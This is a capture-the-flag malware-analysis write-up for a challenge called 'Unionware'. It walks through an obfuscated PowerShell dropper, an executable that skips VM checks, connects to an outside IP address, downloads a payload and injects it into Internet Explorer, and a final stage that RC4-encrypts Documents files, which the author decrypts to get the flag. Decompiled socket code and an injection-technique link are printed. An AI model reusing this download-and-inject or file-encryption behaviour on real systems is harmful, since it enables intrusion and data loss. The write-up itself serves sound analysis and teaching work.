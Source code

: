 # **Unionware**

### **Description:**

![image0](images/image0.png)

### **Part 1: powershell file analysis**

This is an obfuscate form of powershell, used `spit()` . Write scripts to get content clearly. Then we will have the file  `lnELKNdoie .exe`

### **Part 2: `lnELKNdoie.exe` file analysis**

At the beginning of the file there is `checkVM` function and some other checks, I choose next directly through these checks.

![image1](images/image1.png)

Enter `conn`  function, because the file used `xor obfuscate`, I debug to know function to be called, explain to `conn`:

```c
// define winsock
v6 = ((int (__cdecl *)(int, int *, int, int))ws2_32_WSAStartup(514, &v40, a3, a4);

// get info of this addr 35.241.159.62 --> 62.159.241.35.bc.googleusercontent.com
((int (__stdcall *)(__m128i *, int, _DWORD *, void (**)(void)))ws2_32_getaddrinfo)(&v38, dword_40A3F8, v41, &v39);

// socket
    s = (const CHAR *)((int (__stdcall *)(_DWORD, _DWORD, _DWORD, __m128i *))ws2_32_socket)(*((_DWORD *)v39 + 1),*((_DWORD *)v39 + 2),*((_DWORD *)v39 + 3),v48);
    
// conn addr above
((int (__stdcall *)(const CHAR *, _DWORD, _DWORD))ws2_32_connect)(s,*((_DWORD *)v35 + 6),*((_DWORD *)v35 + 4));

// send: "KADMKLAFD:LSM$OPM@FLK:FM!N$@N$"
((int (__stdcall *)(const CHAR *, __m128i *, int, _DWORD))ws2_32_send)(s,&v28,&v28.m128i_i8[strlen(v28.m128i_i8) + 1] - &v28.m128i_i8[1],0)

 // recv
((int (__stdcall *)(const CHAR *, _BYTE *, int, _DWORD))ws2_32_recv)(s, buf, 1024, 0);

// shutdown
(int (__stdcall *)(const CHAR *, int))ws2_32_shutdown)(s, 1);
```

receive data until  `size == 0x6B200`:

![image2](images/image2.png)

The downloaded file will be Injected into IE, this Inject technique is quite similar [link](https://www.ired.team/offensive-security/code-injection-process-injection/injecting-to-remote-process-via-thread-hijacking)

### **Part 3: file `out.exe`**

The file will look in the folder `Document` file plaintext:

```c
  v14 = SHGetFolderPathA(0, 5, 0, 0, pszPath);
  j_strncat(pszPath, "\\j3w3ls", 8u);           // //Documents//j2w3ls
```

process `encrypt data`:

![image3](images/image3.png)

Enter `encrypt`  function, we will see many functions that define the functions in the `cryptopp` library, and then create `key 128bytes` by `random` function with seed at the time of `encrypt` :

![image4](images/image4.png)

Struct file:

- The first 128 bytes are the key RC4
- The other is the ciphert text

Writing a simple script to recover the original file is going to have the `flag`.

All file `.idb` and scripts i used in `files folder`.

### Reference

[RC4.c](https://gist.github.com/rverton/a44fc8ca67ab9ec32089)
